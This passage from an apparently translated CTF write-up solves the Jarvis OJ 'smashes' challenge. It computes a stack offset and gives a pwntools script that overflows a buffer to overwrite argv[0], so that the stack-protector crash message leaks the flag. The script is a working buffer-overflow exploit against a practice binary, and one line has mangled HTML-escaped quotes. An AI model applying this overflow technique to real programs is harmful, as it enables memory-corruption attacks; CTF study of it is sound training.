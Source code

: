 

It can be seen that the value of rsp is 0x7fffffffda40, then the relative offset is


```python

>>> 0x00007fffffffdc58-0x7fffffffda40

536

>>> hex(536)

'0x218'

```



#### Using the program


We construct the application as follows


```python

from pwn import *

context.log_level = 'debug'

smash = ELF('./smashes')

if args['REMOTE']:

    sh = remote('pwn.jarvisoj.com', 9877)

else:

    sh = process('./smashes')

argv_addr = 0x00007fffffffdc58

name_addr = 0x7fffffffda40

flag_addr = 0x600D20

another_flag_addr = 0x400d20

payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)

sh.recvuntil('name? ')

sh.sendline(payload)

sh.recvuntil('flag: ')

sh.sendline ( &#39;bb&#39;)
data = sh.recv()

sh.interactive()

```
